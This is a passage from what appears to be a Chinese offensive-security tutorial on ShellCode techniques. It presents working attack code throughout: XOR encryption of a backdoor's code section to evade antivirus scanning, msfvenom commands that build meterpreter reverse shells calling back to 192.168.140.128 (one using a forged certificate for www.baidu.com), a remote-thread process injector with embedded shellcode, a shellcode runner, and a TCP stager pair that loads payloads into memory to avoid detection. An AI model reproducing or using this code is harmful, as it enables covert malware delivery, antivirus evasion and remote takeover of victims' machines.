此时我们需要将编译代码拖入到`WinHex`工具内，然后按下`Ctrl+Alt+X`输入`4048`找到开始于结束的位置，此处之所以是`4048`是因为我们在代码片段中布置了`__asm inc eax,__asm dec eax`是为了方便我们搜索时的特征值，至此我们分别记录下起始地址`592`结束地址`5F4`此处的代码需要被工具异或加密。



接下来读者需要实现一个对文件进行加密的功能，如下所示的`PatchFile();`函数，读者依次传入前面生成的后门程序，并分别传入`WinHex`中给出的起始地址及结束地址，以及一个加密密钥，此处需保持与上方解密密钥一致；
```C
#include <Windows.h>
#include <tchar.h>
#include <iostream>

// 异或加密
bool PatchFile(LPCTSTR szFileName, DWORD address1, DWORD address2, LPCTSTR szRegCode)
{
    TCHAR szBuffer[30] = { 0 };
    DWORD offset, Size, k, nbWritten, szTemp;;
    HANDLE hFile;
    DWORD* ptr;

    hFile = CreateFile(
        szFileName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE)
    {
        return false;
    }

    // 对输入的注册码进行一定的变换，得到密钥k ，k = F（注册码）
    k = 1;
    for (DWORD i = 0; i < _tcslen(szRegCode); i++)
    {
        k = k * 6 + szRegCode[i];
    }

    Size = address2 - address1;

    // 加密时，每次异或 DWORD数据，Size是为最终需要异或的次数
    Size = Size / 0x4;
    offset = address1;

    for (DWORD i = 0; i < Size; i++)
    {
        SetFilePointer(hFile, offset, NULL, FILE_BEGIN);

        // 读取DWORD字节的文件内容
        ReadFile(hFile, szBuffer, 4, &szTemp, NULL);
        ptr = (DWORD*)szBuffer;
        *ptr = (*ptr) ^ k;
        SetFilePointer(hFile, offset, NULL, FILE_BEGIN);

        // 写入文件
        if (!WriteFile(hFile, ptr, 4, &nbWritten, NULL))
        {
            CloseHandle(hFile);
            return false;
        }
        offset = offset + 4;
    }

    CloseHandle(hFile);
    return true;
}

int main(int argc, char* argv[])
{
    bool bSuccess = PatchFile("d://lyshark.exe", 0x592, 0x5f4, "lyshark");
    if (bSuccess)
    {
        printf("ShellCode 已被加密替换");
    }

    system("pause");
    return 0;
}
```

这段代码运行后将会通过异或运算替换`lyshark.exe`程序中的`0x592-0x5f4`之间的机器码，并以`lyshark`为密钥依次异或替换；

当程序没有运行到指定区域时区域内的数据默认处于加密状态，此时的汇编指令集则处于被保护的状态；



而一旦EIP指针运行到此处时，则此处的代码将被解密并展开，由于指令执行到此处才会被解密执行，而未被执行则处于加密状态，所以这将导致多数磁盘查杀无法查出特征值，内存查杀也需要真正运行到此处才能确定此处代码的真正功能；



### 1.10 内存ShellCode格式化与注入

ShellCode 的格式化与注入功能在实战应用中也尤为重要，格式化`Shellcode`是指将其转换为可执行的二进制格式，使其能够在内存中运行。注入`Shellcode`是指将格式化的`Shellcode`注入到另一个进程的内存中，以便在该进程中执行，此类功能也可算作`ShellCode`技术的延申功能。

#### 1.10.1 针对内存的ShellCode注入

内存注入`ShellCode`是一种利用漏洞将恶意代码注入到进程内存中的攻击方式，该注入方式的优势在于被发现的概率极低，甚至可以被忽略，这是因为`ShellCode`被注入到进程内存中时，其并没有与之对应的硬盘文件，从而难以在磁盘中取证，但也存在一个弊端由于内存是易失性存储器，所以系统必须一直开机，不能关闭，该攻击手法可以应用于服务器上面，安全风险最小，注入后即可将注入器删除并以此保证无文件加载。

首先在实现功能之前读者应该自行生成自定义`ShellCode`代码，至于如何生成在本章第一节中就已经介绍过了，此处只给出生成指令

生成非加密ShellCode攻击载荷

```C
# --------------------------------------------------
# 生成ShellCode攻击载荷
# --------------------------------------------------
[lyshark@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.140.128 lport=9999 -f c

[lyshark@localhost ~]# msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=192.168.140.128 lport=9999 -f c

# --------------------------------------------------
# 服务端建立侦听器
# --------------------------------------------------
[lyshark@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(handler) > set lhost 192.168.140.128
msf6 exploit(handler) > set lport 9999
msf6 exploit(handler) > set EXITFUNC thread
msf6 exploit(handler) > exploit -j -z
```

生成SSL加密ShellCode攻击载荷
```C
# --------------------------------------------------
# 生成ShellCode攻击载荷
# --------------------------------------------------
[lyshark@localhost ~]# openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
> -subj "/C=UK/ST=London/L=London/O=Development/CN=www.baidu.com" \
> -keyout www.baidu.com.key -out www.baidu.com.crt

[lyshark@localhost ~]# cat www.baidu.com.key www.baidu.com.crt > www.baidu.com.pem
[lyshark@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https \
> lhost=192.168.140.128 lport=8443 PayloadUUIDTracking=true PayloadUUIDName=MyShell \
> HandlerSSLCert=/root/www.baidu.com.pem StagerVerifySSLCert=true \
> -f c -o /root/shell.c

# --------------------------------------------------
# 服务端建立侦听器
# --------------------------------------------------
[lyshark@localhost ~]# msfconsole
msf6 exploit(handler) > use exploit/multi/handler
msf6 exploit(handler) > set payload windows/meterpreter/reverse_https
msf6 exploit(handler) > set LHOST 192.168.140.128
msf6 exploit(handler) > set LPORT 8443
msf6 exploit(handler) > set HandlerSSLCert /root/www.baidu.com.pem
msf6 exploit(handler) > set StagerVerifySSLCert true
msf6 exploit(handler) > exploit -j -z
```

接着我们来实现注入功能，首先我们通过`CreateToolhelp32Snapshot()`拍摄一个进程快照并通过比较找到所需注入进程，找到后通过`OpenProcess()`打开进程，然后调用`VirtualAllocEx()`函数在对端内存中分配空间，并通过`WriteProcessMemory()`将`ShellCode`写入到对端，最后通过`CreateRemoteThread()`开启远程线程执行ShellCode代码。

其核心原理总结起来如下所示：

 - 1.获取目标进程的PID，这里使用了`ToolHelp32`获取系统中正在运行的进程列表，并遍历列表查找指定名称的进程。
 - 2.打开目标进程。使用`OpenProcess`打开目标进程，获取进程的句柄。
 - 3.在目标进程中分配内存。使用`VirtualAllocEx`在目标进程中分配一段内存，用于存储`ShellCode`的代码。
 - 4.将`ShellCode`的代码写入目标进程的内存中。使用`WriteProcessMemory`将`ShellCode`的代码写入目标进程的内存中。
 - 5.在目标进程中创建远程线程并执行`ShellCode`。使用`CreateRemoteThread`在目标进程中创建一个远程线程，并将其起始地址指向`ShellCode`在目标进程中的内存地址，从而执行 `ShellCode`的代码。
 - 6.等待远程线程执行完毕。使用`WaitForSingleObject`等待远程线程执行完毕。
 - 7.清理资源。关闭句柄，释放内存等。

根据上述原理解析，读者很容易就可以写出如下所示的代码片段，读者只需要将自定义`ShellCode`填充之变量内，并输入进程PID即可实现对特定进程的注入功能；
```C
#include <Windows.h>
#include <stdio.h>

// 定义ShellCode
unsigned char ShellCode[] =
"\xba\x1a\x77\xba\x2b\xd9\xee\xd9\x74\x24\xf4\x5e\x29\xc9"
"\xb1\x59\x31\x56\x14\x03\x56\x14\x83\xee\xfc\xf8\x82\x46"
"\xc3\x73\x6c\xb7\x14\xeb\xe4\x52\x25\x39\x92\x17\x14\x8d"
"\xd0\x7a\x95\x66\xb4\x6e\x94\x87\x36\x38\x9c\x51\xc2\x34"
"\x09\xac\x14\x14\x75\xaf\xe8\x67\xaa\x0f\xd0\xa7\xbf\x4e"
"\xdb\xac\xa6";

int main(int argc, char *argv[])
{
    HANDLE Handle = NULL;
    HANDLE remoteThread = NULL;
    PVOID remoteBuffer = NULL;
    DWORD Pid = 0;

    printf("请输入待注入进程PID号：");
    scanf("%d", &Pid);

    // 打开目标进程句柄
    Handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Pid);
    if (Handle == NULL)
    {
        printf("打开进程失败\n");
        return 1;
    }

    // 在目标进程中分配内存
    remoteBuffer = VirtualAllocEx(Handle, NULL, sizeof(ShellCode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (remoteBuffer == NULL)
    {
        printf("分配内存失败\n");
        CloseHandle(Handle);
        return 1;
    }

    // 在目标进程中写入ShellCode
    if (!WriteProcessMemory(Handle, remoteBuffer, ShellCode, sizeof(ShellCode), NULL))
    {
        printf("写入内存失败\n");
        VirtualFreeEx(Handle, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(Handle);
        return 1;
    }

    // 在目标进程中创建远程线程
    remoteThread = CreateRemoteThread(Handle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    if (remoteThread == NULL)
    {
        printf("创建线程失败\n");
        VirtualFreeEx(Handle, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(Handle);
        return 1;
    }

    // 等待远程线程执行完毕
    WaitForSingleObject(remoteThread, INFINITE);

    // 释放内存和关闭句柄
    VirtualFreeEx(Handle, remoteBuffer, 0, MEM_RELEASE);
    // CloseHandle(remoteThread);
    CloseHandle(Handle);

    printf("注入成功\n");
    return 0;
}
```

#### 1.10.2 实现格式化与代码执行盒

在某些时候我们需要在外部传入特定的一段字符串以此实现反弹，而不是上述案例中提到的需要将ShellCode代码写死在程序中，这样即可增加灵活性，我们以本地代码执行为案例讲解一下代码执行盒是如何实现的。

代码执行盒的实现非常容易，如下代码中程序接收`argv[1]`传递变量，并将该变量通过`sscanf`格式化为字节类型，如果不格式化那么在读入内存后默认会以`WORD`模式存在，此时则会占用两个字节而导致`ShellCode`失效，为了能让功能有效，则必须进行转换，如下代码则是执行盒的完整实现；
```C
#include <stdio.h>
#include <Windows.h>

int main(int argc, char *argv[])
{
    unsigned int char_in_hex;

    char *shellcode = argv[1];
    unsigned int iterations = strlen(shellcode);

    unsigned int memory_allocation = strlen(shellcode) / 2;

    for (unsigned int i = 0; i< iterations - 1; i++)
    {
        sscanf(shellcode + 2 * i, "%2X", &char_in_hex);
        shellcode[i] = (char)char_in_hex;
    }

    void *exec = VirtualAlloc(0, memory_allocation, MEM_COMMIT, PAGE_READWRITE);
    memcpy(exec, shellcode, memory_allocation);
    DWORD ignore;
    VirtualProtect(exec, memory_allocation, PAGE_EXECUTE, &ignore);
    (*(void(*)()) exec)();

    return 0;
}
```

以下是核心代码的简单解释；
```C
unsigned int memory_allocation = strlen(shellcode) / 2;
```
memory_allocation是一个无符号整数类型的变量，用于表示需要分配的内存大小。因为`shellcode`是16进制编码的，每两个字符表示一个字节，所以内存大小为`shellcode`长度的一半。
```C
for (unsigned int i = 0; i< iterations - 1; i++)
{
    sscanf(shellcode + 2 * i, "%2X", &char_in_hex);
    shellcode[i] = (char)char_in_hex;
}
```
for循环，用于将16进制编码的`shellcode`转换为可执行的代码。`sscanf`函数将`shellcode`中的16进制字符转换为整数，并存储在`char_in_hex`变量中。然后将`char_in_hex`强制转换为字符类型，并将其存储在`shellcode`中。
```C
void *exec = VirtualAlloc(0, memory_allocation, MEM_COMMIT, PAGE_READWRITE);
```
这是一个`void`类型的指针变量，用于指向分配的内存空间。`VirtualAlloc`函数分配一个指定大小的内存块，并返回一个指向该内存块的指针。参数`MEM_COMMIT`表示分配的内存将立即被提交，`PAGE_READWRITE`表示内存可读可写。
```C
memcpy(exec, shellcode, memory_allocation);
```
将`shellcode`复制到分配的内存空间中。
```C
DWORD ignore;
VirtualProtect(exec, memory_allocation, PAGE_EXECUTE, &ignore);
```
VirtualProtect函数修改内存页的保护属性，将内存页的执行属性设置为可执行。`PAGE_EXECUTE`表示内存可执行。
```C
(*(void(*)()) exec)();
```
执行分配的内存空间中的代码。将exec指针强制转换为指向无参数、无返回值的函数指针，然后调用该函数指针。这样，shellcode中的代码就会被执行。

由于代码执行盒接收的是一个字符串，则我们还需要实现一个将`ShellCode`转换为字符串的功能，我们只需要将文本依次读入到内存，并以此过滤掉无用字节即可实现该功能；
```C
void Compressed(const char* FileName)
{
    FILE* fp_read;
    char write_ch;
    if ((fp_read = fopen(FileName, "r")) != NULL)
    {
        while ((write_ch = fgetc(fp_read)) != EOF)
        {
            if (write_ch != L'\n' && write_ch != L'\"' && write_ch != L'\\' && write_ch != L'x' && write_ch != L';')
            {
                printf("%c", write_ch);
            }
        }
    }
    _fcloseall();
}
```

完整代码已经有了那么该如何使用呢，首先读者需要将`ShellCode`代码保存为文本文档，需要注意的是读者在保存文件时应保存为如下格式；



此时调用`Compressed("d://shellcode.txt");`并传入文本路径，则读者会看到如下输出，此时的`ShellCode`则被格式化为一行，如下图所示；



保存这段`ShellCode`代码，并运行代码执行盒，通过传入命令行传入参数，即可实现反弹，传入参数如下图所示；



### 1.11 动态加载ShellCode绕过杀软

反病毒解决方案通常利用静态分析技术来识别恶意文件，但是如果攻击者使用轻量级的stager（即将代码下载到内存中，而不是磁盘），静态分析技术就可能会失效。使用动态加载ShellCode技术可以绕过大多数防病毒软件的检测，因为它们通常只会检测磁盘上的文件，而不会检测内存中的文件。因此，攻击者可以在内存中加载恶意代码，并且某些防病毒软件可能无法识别它。

基于TCP协议的`ShellCode`远程注入是一种黑客攻击技术，通过利用`TCP`协议中的`Socket`套接字传输`ShellCode`攻击载荷，从而实现对受害者计算机的远程控制。攻击者编写一个程序包含恶意`ShellCode`代码，并在该程序中启动一个`Socket`监听端口，受害者计算机连接攻击者计算机的`Socket`监听端口，建立`TCP`连接，攻击者将`ShellCode`代码通过`TCP`连接发送到受害者计算机，ShellCode代码将被注入到受害者计算机的内存中并开始执行，攻击者以此来实现远程控制和反弹后门的目的。

**什么是Socket协议，他有哪些应用呢？**

Socket（套接字）是一种网络通信协议，可以在不同的计算机之间实现进程间的通信。是应用层和传输层之间的一个接口，它提供了一组用于网络通信的函数，包括创建套接字、绑定套接字、监听连接、接受连接、发送数据、接收数据等。开发人员可以使用这些函数，基于`Socket`接口编写网络应用程序，实现不同计算机之间的进程间通信，或者同一计算机上的不同进程之间的通信。

Socket 套接字有两种类型：

 - 流式套接字和数据报套接字。流式套接字提供了一种可靠的、面向连接的通信方式，常用于实现基于`TCP`协议的应用程序。
 - 数据报套接字则提供了一种不可靠的、无连接的通信方式，常用于实现基于`UDP`协议的应用程序。

Socket 套接字的使用广泛，被广泛应用于互联网上的各种网络应用程序，如 Web 服务器、邮件服务器、FTP 服务器、P2P 文件共享程序等。同时，许多编程语言和操作系统都提供了`Socket`接口的实现，使得开发者可以方便地使用`Socket`编写网络应用程序。

**那什么又是TCP/UDP协议呢？**

TCP（Transmission Control Protocol，传输控制协议）是一种基于连接的、可靠的、面向流的传输层协议。它是互联网协议栈中最常用的协议之一，它通过使用序号、确认和重传机制来确保数据在传输过程中不会丢失、重复或损坏。TCP 协议还支持流量控制和拥塞控制，可以根据网络拥塞的情况动态调整数据传输的速率，以保证网络的稳定性和可靠性。

一般而言TCP协议主要实现了以下功能：

 - 可靠数据传输：TCP协议通过使用序列号、确认号、重传机制等技术，保证数据的可靠传输。
 - 流量控制：TCP协议通过滑动窗口机制来控制发送方和接收方之间的数据传输速率，以避免网络拥塞。
 - 拥塞控制：TCP协议通过使用拥塞窗口、慢启动、拥塞避免、快速重传、快速恢复等机制，来控制网络拥塞，以保证网络的稳定性和可靠性。
 - 传输顺序控制：TCP协议通过使用序列号来控制数据的传输顺序，以保证接收方能够按照正确的顺序重组数据。
 - 连接管理：TCP协议通过三次握手和四次挥手的方式来建立和断开连接，以保证数据传输的可靠性和正确性。

要实现数据通信TCP会经历3次握手，三次握手（Three-way Handshake）是TCP协议用于建立可靠连接的一种方法，它由三个步骤组成，具体流程如下：

 - 1.客户端向服务器发送一个SYN（Synchronize Sequence Number，同步序列号）报文，用来请求建立连接。该报文中包含一个随机生成的序列号（Seq）。
 - 2.服务器接收到客户端的SYN报文后，向客户端发送一个SYN+ACK（Synchronize Acknowledgement，同步确认）报文，用来确认客户端的请求并表明自己也愿意建立连接。该报文中包含一个确认号（Ack）和另一个随机生成的序列号（Seq）。
 - 3.客户端接收到服务器的SYN+ACK报文后，向服务器发送一个ACK（Acknowledgement，确认）报文，用来确认服务器的请求，并表明自己已经准备好传输数据了。该报文中包含一个确认号（Ack），其值为服务器发送的序列号（Seq）加一。

在TCP三次握手中，第一次握手由客户端发起，用来请求建立连接；第二次握手由服务器发起，用来确认客户端的请求并表明自己也愿意建立连接；第三次握手由客户端发起，用来确认服务器的请求，并表明自己已经准备好传输数据了。这样，客户端和服务器就可以互相确认彼此的身份，建立起可靠的连接，确保数据的安全和可靠传输。

经过以上三个步骤，TCP连接就建立起来了，客户端和服务器就可以开始传输数据了，当然这个过程对于开发者而言是透明的，开发者无需知道具体的底层实现细节，只需要使用操作系统中提供的API编程接口即可，我们以`Windows`平台为例，当我们需要创建一个`Soocket`套接字时，一般会经历如下流程。

首先读者需要引入`<Winsock2.h>`此头文件是`Windows`平台下套接字编程的主要头文件，提供了`socket`等套接字相关的函数和数据类型的定义。`#pragma comment(lib, "ws2_32.lib") `是为了链接套接字库文件，确保程序能够正确调用套接字函数。

第一步，初始化`Winsock`库，该库提供了套接字编程所需的底层网络协议支持。在使用套接字编程之前，需要先初始化`Winsock`库。

使用`WSAStartup`函数初始化`Winsock`库，函数原型如下：
```C
int WSAStartup(
  WORD      wVersionRequested,
  LPWSADATA lpWSAData
);
```

 - wVersionRequested 参数表示请求的 Winsock 库版本，通常使用宏 MAKEWORD(2, 2)，表示请求版本为 2.2。
 - lpWSAData 参数是指向一个 WSADATA 结构体的指针，用于返回 Winsock 库的详细信息。
 - WSAStartup 函数成功返回 0，失败返回非 0 值。

第二步，创建套接字，使用`socket`函数创建套接字，函数原型如下：
```C
SOCKET socket(
  int af,
  int type,
  int protocol
);
```

 - af 参数表示地址族，通常使用 AF_INET 表示使用 IPv4 地址族。
 - type 参数表示套接字类型，常用的有两种：SOCK_STREAM 表示创建流式套接字，SOCK_DGRAM 表示创建数据报套接字。此处使用 SOCK_STREAM，表示创建流式套接字。
 - protocol 参数表示协议类型，常用的有两种：IPPROTO_TCP 表示使用 TCP 协议，IPPROTO_UDP 表示使用 UDP 协议。此处使用 IPPROTO_TCP，表示使用 TCP 协议。
 - socket 函数成功返回套接字描述符（socket descriptor），失败返回 INVALID_SOCKET。

#### 1.11.1 探索Socket服务端

至此套接字的初始化工作就完成了，而下一步对于`服务端`而言，则需要调用`Bind`绑定套接字，使用`bind()`函数可以绑定一个套接字`（socket）`到一个特定的本地地址和端口号。该函数的原型如下：
```C
int bind(SOCKET s, const struct sockaddr *name, int namelen);
```
其中，`s`是要绑定的套接字，`name`是一个指向要绑定的本地地址结构体的指针，`namelen`是地址结构体的长度。在`IPv4`协议中，`name`是一个指向`sockaddr_in`结构体的指针，该结构体定义如下：
```C
struct sockaddr_in {
    short sin_family;           // 地址族（Address Family）
    unsigned short sin_port;    // 端口号（Port number）
    struct in_addr sin_addr;    // IP地址（IP address）
    char sin_zero[8];           // 填充（Padding）
};
```
而读者在初始化时，需要根据要求填充这个套接字为特定的内容，例如将`sin.sin_family`设置为`AF_INET`表示使用IPv4协议，`sin.sin_port`表示绑定端口号，`sin.sin_addr.S_un.S_addr`表示本地IP地址，`INADDR_ANY`是一个常量，表示本地任意可用的IP地址，当填充结构结束时则可以直接调用`bind`函数实现套接字的绑定。

至此服务端再次调用`listen`函数，该函数用于将一个已绑定的套接字转换为监听套接字，到出现客户端链接请求时则套接字会接受请求，并路由到`accept`函数，`accept()`函数，用于接受客户端的连接请求，创建一个新的套接字用于和客户端通信。它的原型如下：
```C
SOCKET accept(SOCKET s, struct sockaddr *addr, int *addrlen);
```

其中`s`是监听套接字，`addr`和`addrlen`用于存储客户端的地址信息。`accept()`函数会一直阻塞，直到有客户端连接到服务器为止。当有客户端连接到服务器时，`accept()`函数会返回一个新的套接字，用于和客户端通信。这个新的套接字是已连接的套接字，它和客户端的套接字已经建立了连接。我们可以使用这个新的套接字进行数据传输。

而当客户端上线并准备就绪时，此时服务端通过调用`send`函数（该函数用于向已连接的套接字或者未连接的套接字发送数据），将提前准备好的恶意代码传输给客户端，并通过`closesocket`关闭本次执行，等待下一个客户端前来获取ShellCode代码，至此服务端的实现流程就完成了。

**格式化ShellCode是传输前提**

对于`Send`所发送的数据，我们也需要保证其格式，此处我们还需要通过封装实现一个`CompressedOnFormat`函数，该函数的主要功能，是将一段`ShellCode`代码字节数组压缩为一段纯字符串，并在格式化时将其转化为内存字节类型的数据格式，这可以让套接字更好的实现传输，并在传输过程中保证数据的可用性；



如上图所示则是未被格式化的`ShellCode`代码，通过如下`CompressedOnFormat()`代码的过滤功能，则会将`ShellCode`载荷动态装载到`GloShellCode`全局变量中，并返回`memory_allocation`也就是返回长度。
```C
#define _CRT_SECURE_NO_WARNINGS
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <WinSock2.h>
#include <Windows.h>
#include <string>

#pragma comment(lib,"ws2_32")

char GloShellCode[8196] = { 0 };

// 压缩并规范到内存
int CompressedOnFormat(const char* FileName)
{
    FILE* fp_read;
    int memory_allocation = 0;

    // 首先压缩为一行
    if ((fp_read = fopen(FileName, "r")) != NULL)
    {
        char char_in_;
        while ((char_in_ = fgetc(fp_read)) != EOF)
        {
            if (char_in_ != L'\n' && char_in_ != L'\"' && char_in_ != L'\\' && char_in_ != L'x' && char_in_ != L';')
            {
                GloShellCode[memory_allocation] = char_in_;
                memory_allocation = memory_allocation + 1;
            }
        }
        _fcloseall();
    }

    // 接着规范为内存格式
    unsigned int char_in_hex;
    for (int x = 0; x < (memory_allocation - 1); x++)
    {
        sscanf(GloShellCode + 2 * x, "%02X", &char_in_hex);
        GloShellCode[x] = (char)char_in_hex;
    }
    return memory_allocation;
}

int main(int argc, char *argv)
{
    int memory_allocation = CompressedOnFormat("c://shellcode.txt");

    printf("格式化 = %d \n", memory_allocation);

    for (size_t i = 0; i < memory_allocation; i++)
    {
        printf("%x ", (unsigned char)GloShellCode[i]);
    }

    system("pause");
    return 0;
}
```

运行上述代码片段，读者可看到如下图所示的输出结果，可以对比发现，此时的ShellCode已经可以被直接通过Socket传输了；



**服务端程序核心代码**

而当这些工作都做好以后，接下来我们则需要实现服务端发送程序，在主函数中通过传入`path="d://shellcode.txt"`设置当前路径，通过`port = 8877`设置侦听端口号，如下核心代码所示；
```C
int main(int argc, char *argv)
{
    char *path = "d://shellcode.txt";
    int port = 8877;
    int count = CompressedOnFormat(path);

    if (count != 0)
    {
        WSADATA wsaData;
        SOCKET sock, Sclient;
        struct sockaddr_in sin, client;
        int nAddrLen = sizeof(client);

        WSAStartup(MAKEWORD(2, 2), &wsaData);
        sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

        sin.sin_family = AF_INET;
        sin.sin_port = htons(port);
        sin.sin_addr.S_un.S_addr = INADDR_ANY;

        bind(sock, (struct sockaddr*)&sin, sizeof(sin));

        printf("[*] TCP服务端启动端口: %d 正在等待上线. \n", port);

        while (1)
        {
            if (listen(sock, 20) != SOCKET_ERROR)
            {
                Sclient = accept(sock, (SOCKADDR*)&client, &nAddrLen);
                send(Sclient, GloShellCode, sizeof(GloShellCode), 0);
                printf("[+] 上线地址: %s --> 端口: %d \n", inet_ntoa(client.sin_addr), htons(client.sin_port));
            }
            closesocket(Sclient);
        }
        WSACleanup();
    }

    system("pause");
    return 0;
}
```

读者手动启动并运行如上述代码片段，如果成功执行则会看到如下所示的输出效果；



#### 1.11.2 探索Socket客户端

与服务端套接字创建相比客户端的创建流程仅仅只是多了`connect`连接与注入功能，connect函数用于建立与远程服务器的连接。它的函数原型如下：
```C
int connect(SOCKET s, const struct sockaddr* name, int namelen);
```
其中，`s`是要建立连接的套接字，`name`是指向远程服务器地址的指针，`namelen`是`name`结构体的大小。connect函数的作用是向指定的服务器发起连接请求。在成功建立连接后，可以使用`send`和`recv`函数来进行数据的发送和接收。如果连接建立失败，则可以使用`WSAGetLastError`函数获取错误码，进而找到失败的原因。

当与服务端的链接一旦被建立，则下一步通过`recv()`函数动态接收攻击载荷到本地，并通过`CreateThread`开启线程函数，如下则是核心实现原理，读者通过前面的内容应该很容易理解这段话所表达的含义，此处就不再赘述；
```C
void* ShellCode = VirtualAlloc(0, sizeof(GloShellCode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
CopyMemory(ShellCode, GloShellCode, sizeof(GloShellCode));

hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)ShellCode, 0, 0, 0);
WaitForSingleObject(hThread, INFINITE);
memset(ShellCode, 0, sizeof(ShellCode));
```
将上述功能总结起来，则读者可获取到如下所示的客户端片段，读者通过`port`指定为服务端的端口号，并通过`remote_address`指定为服务端的IP地址信息。
```C
#define _CRT_SECURE_NO_WARNINGS
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <WinSock2.h>
#include <Windows.h>
#include <string>

#pragma comment(lib,"ws2_32")

char GloShellCode[8196] = { 0 };

int main(int argc, char *argv)
{
    WSADATA wsaData;
    SOCKET socks;
    struct sockaddr_in sin;
    HANDLE hThread;

    int port = 8877;
    char *remote_address = "127.0.0.1";

    WSAStartup(MAKEWORD(2, 2), &wsaData);
    socks = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    sin.sin_family = AF_INET;
    sin.sin_port = htons(port);
    sin.sin_addr.S_un.S_addr = inet_addr(remote_address);

    if (connect(socks, (struct sockaddr*)&sin, sizeof(sin)) != SOCKET_ERROR)
    {
        int ret = recv(socks, GloShellCode, sizeof(GloShellCode), 0);
        if (ret > 0)
        {
            void* ShellCode = VirtualAlloc(0, sizeof(GloShellCode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            CopyMemory(ShellCode, GloShellCode, sizeof(GloShellCode));

            hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)ShellCode, 0, 0, 0);
            WaitForSingleObject(hThread, INFINITE);
            memset(ShellCode, 0, sizeof(ShellCode));
        }
    }
    memset(GloShellCode, 0, sizeof(GloShellCode));
    closesocket(socks);

    WSACleanup();
}
```

编译并运行如上代码，则服务端会接收到攻击载荷，并将该载荷动态注入到内存中，实现反弹；



至此，读者打开`kali`中的`metasploit`组件，则可看到客户端已上线，我们已经拿到了客户端的控制权；



当然读者也可以通过UDP协议实现反弹，而UDP因为是无连接的协议，在发送数据后并不会保证数据的完整性，当使用UDP传输攻击载荷是相对的会比TCP更好，因为UDP默认不保持会话，这对于规避安全软件会有更好的效果，当然读者可以自行尝试改写这段代码，此处笔者只是抛砖引玉为大家解释这种攻击手法的实现细节；

### 1.12 进程注入ShellCode套接字

在笔者前几篇文章中我们一直在探讨如何利用`Metasploit`这个渗透工具生成`ShellCode`以及如何将ShellCode注入到特定进程内，本章我们将自己实现一个正向`ShellCode`后门，当进程被注入后，则我们可以通过利用NC等工具连接到被注入进程内，并以对方的权限及身份执行命令，该功能有利于于后门的隐藏。本章的内容其原理与`《运用C语言编写ShellCode代码》`中所使用的原理保持一致，通过动态定位到我们所需的网络通信函数并以此来构建一个正向后门，本章节内容对`Metasploit`工具生成的后门原理的理解能够起到促进作用。

读者需要理解，套接字（socket）是计算机网络中一种特殊的文件，是网络通信中的一种技术，用于实现进程之间的通信和网络中数据的传输。在网络通信中，套接字就像一条传送数据的管道，负责数据的传输和接收。而socket（套接字）是在网络通信中最常用的一种通信协议，它定义了一组用于网络通信的API。通过使用socket，程序员可以在不同的计算机之间进行通信。读者可以将两者理解为一个意思。

#### 1.12.1 读入Kernel32模块基址

为了能让读者更清晰的认识功能实现细节，首先笔者先来实现一个简单的读取特定模块内函数的入口地址，并输出该模块地址的功能，需要注意的是，在之前的文章中笔者已经介绍了这种读取技术，当时使用的是汇编版实现，由于需要自定位代码的支持导致汇编语言的实现过于繁琐，其实此类代码在应用层实现仅仅只需要调用`GetProcAddress()`即可获取到核心参数，其实先细节如下所示；

```C
#include <iostream>
#include <Windows.h>

// Kernel32 调用约定定义
typedef HMODULE(WINAPI* LOADLIBRARY)(LPCTSTR lpFileName);
typedef FARPROC(WINAPI* GETPROCADDRESS) (HMODULE hModule, LPCSTR lpProcName);

typedef struct _ShellBase
{
  // 针对Kernel32的操作
  HANDLE KernelHandle;        // 存储句柄
  char kernelstring[20];      // 存储字符串 kernel32.dll

  // 针对User32的操作
  HANDLE UserHandle;         // 存储句柄    
  char userstring[20];       // 存储字符串 user32.dll

  // 定义函数指针
  LOADLIBRARY KernelLoadLibrary;
  GETPROCADDRESS KernelGetProcAddress;
}ShellParametros;

int main(int argc,char *argv[])
{
  ShellParametros Param;
  
  // 得到加载基地址的工具函数
  Param.KernelHandle = LoadLibrary("kernel32.dll");
  Param.KernelLoadLibrary = (LOADLIBRARY)GetProcAddress((HINSTANCE)Param.KernelHandle, "LoadLibraryA");
  Param.KernelGetProcAddress = (GETPROCADDRESS)GetProcAddress((HINSTANCE)Param.KernelHandle, "GetProcAddress");
  
  printf("获取到Kernel32.dll = 0x%08X \n", Param.KernelHandle);

  system("pause");
  return 0;
}
```
这段代码主要是定义了一个结构体`ShellParametros`，并初始化了其中的一些参数。该结构体中定义了两个`HANDLE`类型的变量`KernelHandle`和`UserHandle`，分别用于存储`kernel32.dll`和`user32.dll`的句柄。同时，也定义了两个字符串数组`kernelstring`和`userstring`，用于存储对应的库名。

接下来，定义了两个函数指针类型`LOADLIBRARY`和`GETPROCADDRESS`，分别用于后续的动态库加载和函数导出操作。

在`main`函数中，首先初始化了`ShellParametros`结构体类型的变量`Param`。然后，调用`LoadLibrary`函数加载`kernel32.dll`库，并通过`GetProcAddress`函数分别获取`LoadLibraryA`和`GetProcAddress`函数的地址，并将它们赋值给`Param.KernelLoadLibrary`和`Param.KernelGetProcAddress`函数指针变量。最终打印出获取到的`kernel32.dll`的基地址，以及等待用户按下任意键退出程序。

